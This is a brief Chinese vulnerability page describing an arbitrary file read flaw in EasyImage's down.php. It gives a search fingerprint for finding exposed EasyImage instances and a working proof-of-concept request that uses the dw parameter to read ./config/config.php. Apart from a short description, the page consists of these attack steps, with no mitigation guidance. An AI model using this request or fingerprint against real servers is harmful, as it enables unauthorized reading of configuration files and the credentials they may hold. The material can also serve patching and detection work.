

# EasyImage down.php 任意文件读取漏洞

## 漏洞描述

EasyImage down.php 文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>EasyImage</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EasyImage-简单图床"</a-checkbox></br>

## 漏洞复现

主页面



验证POC

```plain
/application/down.php?dw=./config/config.php
```

